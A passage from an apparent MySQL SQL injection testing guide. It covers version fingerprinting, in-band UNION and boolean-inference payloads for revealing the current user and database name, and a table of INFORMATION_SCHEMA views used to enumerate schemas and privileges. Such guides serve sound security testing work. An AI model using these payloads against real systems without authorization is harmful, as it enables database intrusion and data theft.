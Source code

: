 `1 AND @@version like '4.0%'`

The response would contain something to the lines of:

`5.0.22-log`

#### Login User

There are two kinds of users MySQL Server relies upon.

1. [USER()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_user): the user connected to the MySQL Server.
2. [CURRENT_USER()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_current-user): the internal user who is executing the query.

There is some difference between 1 and 2. The main one is that an anonymous user could connect (if allowed) with any name, but the MySQL internal user is an empty name (''). Another difference is that a stored procedure or a stored function are executed as the creator user, if not declared elsewhere. This can be known by using `CURRENT_USER`.

In band injection:

`1 AND 1=0 UNION SELECT USER()`

Inferential injection:

`1 AND USER() like 'root%'`

The response would contain something to the lines of:

`user@hostname`

#### Database Name in Use

There is the native function `DATABASE()`

In band injection:

`1 AND 1=0 UNION SELECT DATABASE()`

Inferential injection:

`1 AND DATABASE() like 'db%'`

> Expected Result, A string like this:
>
> `dbname`

#### INFORMATION_SCHEMA

From MySQL 5.0 a view named [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html) was created. It allows us to get all the information about databases, tables, and columns, as well as procedures and functions.

| Tables_in_INFORMATION_SCHEMA | DESCRIPTION |
|------------------------------|-------------|
| SCHEMATA  | All databases the user has (at least) SELECT_priv |
| SCHEMA_PRIVILEGES  | The privileges the user has for each DB |
| TABLES  | All tables the user has (at least) SELECT_priv |
| TABLE_PRIVILEGES | The privileges the user has for each table |
| COLUMNS | All columns the user has (at least) SELECT_priv |
| COLUMN_PRIVILEGES | The privileges the user has for each column |
| VIEWS | All columns the user has (at least) SELECT_priv |
| ROUTINES | Procedures and functions (needs EXECUTE_priv) |
| TRIGGERS | Triggers (needs INSERT_priv) |